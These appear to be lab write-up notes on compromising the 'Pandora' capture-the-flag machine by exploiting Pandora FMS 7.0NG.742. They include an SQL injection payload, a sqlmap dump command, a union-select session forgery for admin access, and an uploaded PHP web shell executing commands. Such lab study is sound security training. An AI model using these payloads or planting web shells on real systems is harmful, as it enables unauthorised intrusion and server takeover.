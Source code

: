 - add pandora.panda.htb to localhost in /etc/hosts
- access url via port 9090 to get login screen
----------
## Login Page Enumeration
- Googling the version of Pandora FMS v7.0NG.742_FIX_PERL2020
	- we find RCE exploit
		- https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/
			- sql database in there
			- in line 72 of _chart_generator.php_, the user input is fetched from the `$_REQUEST` superglobal which contains GET and POST parameters, as well as cookie values. The latter is probably the reason why `get_parameter()` was not used here. The user input **`$_REQUEST['session_id']`** is passed to the constructor of the class `PandoraFMS\User` without any sanitization.
			- chart generator is vulnerable
			- /include path : checked url and leads to a directory with chat_generator.php file
		- https://www.exploit-db.com/exploits/50961
- need to capture session id to use for sqlmap
	- since we know we attack the session id of chat_generator.php
```
http://pandora.panda.htb:9090/pandora_console/include/chart_generator.php?session_id=' show datases or 1=1-- -
```
- we get sql error showing its vulnerable to SQLi
## SQLMAP enumeration
- enumerate with sqli 
```
sqlmap -u "http://pandora.panda.htb:9090/pandora_console/include/chart_generator.php?session_id=*" --batch --level=5 --risk=3 -D pandora -T tsessions_php --dump
```
- FIRST PASSWD --dbs, found a database, then --tables to find tables then --dump a table step by step
- found matt session_id
	- added the session id to my url
	- went back to pandora.panda.htb:9090 and was logged in
	-  however Im not admin so only limited functionality
----
- **ALTERNATE METHOD FOR admin access to page (binary analysis) HARD FIND**
	- checking the table again we see
		- id_usuario|s:6:"daniel"
		- somethign similar for matt
		- the s value represents the characters (daniel is 6 characters)
		- add this to url :
```
http://pandora.panda.htb:9090/pandora_console/include/chart_generator.php?sessionid=' union select 1,2,'id_usuario|s:5:"admin";'-- -
```
- we get no error message and refreshion pandora.panda.htb:9090 we get admin access
	- we try to upload php code into file manager (shows its in image directory so can url into pandora_console/images to see and execute)
	- Three methods:
		- upload pentest monkeys php reverse shell with creds and listen on port.
		- manually we can create a php code that calls a command line
```
<?php
system($_REQUEST['cmd']);
?>
```
- Upload and open file in images directory
- pass url to check if working
```
http://pandora.panda.htb:9090/pandora_console/images/shell.php?cmd=whoami
```
- we get response matt
- open burpsuite and capture this